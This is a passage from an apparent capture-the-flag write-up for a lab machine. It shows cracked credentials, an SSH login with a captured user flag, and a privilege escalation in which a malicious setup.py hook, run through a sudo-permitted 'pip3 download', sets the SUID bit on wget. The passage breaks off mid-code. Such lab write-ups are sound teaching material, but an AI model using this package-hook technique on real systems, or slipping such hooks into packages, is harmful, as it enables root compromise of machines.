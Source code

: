 john:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918:admin
admin:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You

let's try and login:

### SSH Login

```

$ ssh john@10.10.11.210
password: ThisIs4You

john@only4you:~$ cat user.txt
d6782e04de7b270fcb14d452171edfff

```
And we got the user.txt


### PrivEsc

So by running `sudo -l` we can see the following:

```

john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz

```
We can run `pip3 download` as root, let's check for common exploits. Found one, seems that we can create a malicious package that will execute right when download is called and this will lead to arbitrary code execution.

It goes as follows:

```

(Host)$ cd /dev/shm/
(Host)$ mkdir exploitpy
(Host)$ cd exploitpy/
(Host)$ touch setup.py
(Host)$ mkdir src
(Host)$ touch src/__init__.py
(Host)$ echo 'print("Hello, World!")' > src/main.py

```
Inside setup.py:

```

#setup.py
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info

def RunCommand():
        # Arbitrary code here!
        import os;os.system("chmod u+s /usr/bin/wget")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)
```